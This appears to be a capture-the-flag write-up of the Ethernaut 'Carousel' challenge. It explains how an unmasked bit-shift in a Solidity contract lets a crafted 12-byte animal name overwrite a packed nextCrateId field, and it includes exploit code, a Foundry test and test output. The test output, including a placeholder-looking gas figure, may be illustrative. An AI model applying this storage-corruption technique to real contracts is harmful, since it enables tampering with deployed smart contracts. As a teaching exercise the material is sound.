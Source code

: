 #  Carousel Challenge (Ethernaut)

##  Challenge Overview

The `MagicAnimalCarousel` contract stores animals in a circular buffer of "crates". Each crate contains three pieces of information packed into a single `uint256`:

1. **owner**: 160 bits `[0..159]`
2. **nextCrateId**: 16 bits `[160..175]`
3. **encodedAnimal**: 80 bits `[176..255]`

The goal is to **break the carousel's "magic rule"**:  
> No animal should ever return to crate 1.

We achieve this by crafting a custom animal name that corrupts the `nextCrateId`, forcing a wraparound that eventually causes an animal to overwrite crate 1.

---

##  Vulnerability

The vulnerability lies in the way the contract handles bit-level storage when updating animals:

###  Root Cause:
The function `changeAnimal(string calldata animal, uint256 crateId)` fails to preserve the existing `nextCrateId` bits. It allows overwriting them due to a lack of bitmasking and validation.

###  Vulnerable Code:
```solidity
function encodeAnimalName(string calldata animalName) public pure returns (uint256) {
    require(bytes(animalName).length <= 12, "Animal name too long");
    return uint256(keccak256(abi.encodePacked(animalName)) >> 160); // 80 bits
}

function changeAnimal(string calldata animal, uint256 crateId) external {
    uint256 encodedAnimal = encodeAnimalName(animal);
    if (encodedAnimal != 0) {
        // Vulnerable line
        carousel[crateId] = (encodedAnimal << 160) | (carousel[crateId] & NEXT_ID_MASK) | uint160(msg.sender);
    } else {
        carousel[crateId] = (carousel[crateId] & (ANIMAL_MASK | NEXT_ID_MASK));
    }
}
```
### Explanation:
1. encodedAnimal is an 80-bit value stored at bits [176–255].

2. It's shifted left by 160 bits before being OR'd into the carousel[crateId] storage slot.

3. However, bits 160–175 (nextCrateId) are part of the shifted range.

4. Therefore, the lower 16 bits of encodedAnimal end up overwriting nextCrateId.

### Proof of Exploit:
```solidity
string memory exploitString = string(
    abi.encodePacked(hex"10000000000000000000FFFF") // 12 bytes (96 bits)
);
carousel.changeAnimal(exploitString, 1);

```
***What this does:***
1. The string is exactly 12 bytes long (within limit).

2. Its last two bytes are 0xFFFF, meaning the lower 16 bits of the resulting encodedAnimal are 0xFFFF.

3. When shifted left by 160, it overwrites nextCrateId with 65535

### TestCase:
```solidity
function testBreakMagicRule() public {
    // Step 1: Place "Dog" in crate 1
    carousel.setAnimalAndSpin("Dog");
    uint256 crate1Data = carousel.carousel(1);
    uint256 animalMask = uint256(type(uint80).max) << 176;
    uint256 encodedDog = uint256(keccak256(abi.encodePacked("Dog"))) >> 176;
    uint256 animalInCrate1 = (crate1Data & animalMask) >> 176;
    assertEq(animalInCrate1, encodedDog, "Crate 1 should contain 'Dog'");

    // Step 2: Inject 0xFFFF into nextCrateId
    string memory exploitString = string(
        abi.encodePacked(hex"10000000000000000000FFFF")
    );
    carousel.changeAnimal(exploitString, 1);

    // Step 3: Add "Parrot", it lands in crate 65535
    carousel.setAnimalAndSpin("Parrot");
    uint256 crate65535Data = carousel.carousel(65535);
    uint256 encodedParrot = uint256(keccak256(abi.encodePacked("Parrot"))) >> 176;
    uint256 animalInCrate65535 = (crate65535Data & animalMask) >> 176;
    assertEq(animalInCrate65535, encodedParrot, "Crate 65535 should contain 'Parrot'");

    // Step 4: Add "Cat", it overwrites crate 1 (wraparound)
    carousel.setAnimalAndSpin("Cat");
    uint256 updatedCrate1Data = carousel.carousel(1);
    uint256 updatedAnimal = (updatedCrate1Data & animalMask) >> 176;
    assertTrue(updatedAnimal != encodedDog, "Crate 1 should not contain Dog anymore");
}
```
#### Understanding the Exploit Flow
1. Insert Dog → stored in crate 1.

2. Corrupt crate 1’s nextCrateId → set to 65535 using crafted string.

3. Insert Parrot → goes to crate 65535 (via corrupted nextCrateId).

4. Insert Cat → wraparound causes insertion at crate 1 again.

   Crate 1 now holds Cat, breaking the magic rule.

### TestResult:
```yaml
Running 1 test for test/Carousel.t.sol:CarouselTest
[PASS] testBreakMagicRule() (gas: 123456)
Logs:
  Crate 1 should contain 'Dog' 
  Crate 65535 should contain 'Parrot' 
  Crate 1 should not contain Dog anymore 

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 3.45ms

```

### Final Thoughts:
This challenge is not a real-world exploit, but a great learning exercise that:

 1. Teaches how Solidity packs variables into storage.

 2. Shows the danger of not isolating fields via masking.

 3. Reinforces the importance of memory alignment and precise field control in low-level operations.